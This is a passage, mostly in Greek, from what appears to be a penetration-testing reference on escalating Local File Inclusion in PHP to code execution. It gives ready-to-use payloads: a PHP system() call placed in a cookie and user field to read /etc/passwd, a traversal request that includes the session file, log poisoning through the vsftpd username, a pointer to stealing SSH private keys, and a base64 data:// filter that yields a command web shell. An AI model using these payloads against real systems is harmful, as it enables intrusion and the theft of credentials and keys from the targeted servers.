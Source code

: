 Ελέγξτε αν η ιστοσελίδα χρησιμοποιεί PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
Στο PHP, αυτές οι συνεδρίες αποθηκεύονται στα _/var/lib/php5/sess\\_\[PHPSESSID]\_ αρχεία
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to `<?php system('cat /etc/passwd');?>`
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Χρησιμοποιήστε το LFI για να συμπεριλάβετε το αρχείο συνεδρίας PHP
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```
### Via ssh

Αν το ssh είναι ενεργό, ελέγξτε ποιος χρήστης χρησιμοποιείται (/proc/self/status & /etc/passwd) και προσπαθήστε να αποκτήσετε πρόσβαση στο **\<HOME>/.ssh/id\_rsa**

### **Via** **vsftpd** _**logs**_

Τα logs για τον FTP server vsftpd βρίσκονται στο _**/var/log/vsftpd.log**_. Στο σενάριο όπου υπάρχει ευπάθεια Local File Inclusion (LFI) και είναι δυνατή η πρόσβαση σε έναν εκτεθειμένο server vsftpd, τα παρακάτω βήματα μπορούν να ληφθούν υπόψη:

1. Εισάγετε ένα PHP payload στο πεδίο ονόματος χρήστη κατά τη διαδικασία σύνδεσης.
2. Μετά την εισαγωγή, χρησιμοποιήστε το LFI για να ανακτήσετε τα logs του server από το _**/var/log/vsftpd.log**_.

### Via php base64 filter (using base64)

Όπως φαίνεται σε [αυτό](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) το άρθρο, το PHP base64 filter απλά αγνοεί τα μη base64. Μπορείτε να το χρησιμοποιήσετε για να παρακάμψετε τον έλεγχο της επέκτασης αρχείου: αν παρέχετε base64 που τελειώνει με ".php", θα αγνοήσει απλά το "." και θα προσθέσει "php" στο base64. Ακολουθεί ένα παράδειγμα payload:
```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
### Via php filters (no file needed)

Αυτή η [**αναφορά**](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) εξηγεί ότι μπορείτε να χρησιμοποιήσετε **php filters για να δημιουργήσετε αυθαίρετο περιεχόμενο** ως έξοδο. Αυτό σημαίνει βασικά ότι μπορείτε να **δημιουργήσετε αυθαίρετο php κώδικα** για την συμπερίληψη **χωρίς να χρειάζεται να τον γράψετε** σε ένα αρχείο.
